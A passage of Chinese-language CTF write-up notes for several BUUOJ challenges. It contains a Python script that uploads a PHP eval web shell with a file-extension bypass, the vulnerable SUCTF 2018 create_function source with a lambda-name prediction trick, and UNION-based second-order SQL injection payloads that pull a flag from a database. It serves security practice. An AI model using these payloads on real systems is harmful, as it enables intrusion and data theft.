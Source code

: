 ```python
import requests

url = "http://5fd19e67-4105-4515-8267-90ec10349865.node4.buuoj.cn:81/index.php/home/index/upload/"
s = requests.Session()
files = {"file": ("shell.<>php", "<?php eval($_GET['cmd'])?>")}
r = requests.post(url, files=files)
print(r.text)
```

# [SUCTF 2018]annonymous

```php
<?php

$MY = create_function("","die(`cat flag.php`);");
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function SUCTF_$hash(){"
    ."global \$MY;"
    ."\$MY();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__);
```

**create_function()**函数在创建之后会 **生成一个函数名** 为：**%00lambda_%d** 详情参见 [使用create_function()创建"匿名"函数](https://blog.csdn.net/weixin_34290352/article/details/91875039)

**%d** 是持续递增的，这里的%d会一直递增到最大长度直到结束，

预期：通过大量的请求来迫使`Pre-fork`模式启动，Apache启动新的线程，这样这里的`%d`会刷新为1，就可以预测了

非预期：爆破后面的 %d



# October 2019 Twice SQL Injection

二次注入

```
username =1' union select database() #
username =1' union select group_concat(table_name) from information_schema.tables where table_schema='ctftraining' #
username =1' union select group_concat(column_name) from information_schema.columns where table_name='flag'#
username =1' union select flag from flag #
```



# [Black Watch 入群题]Web
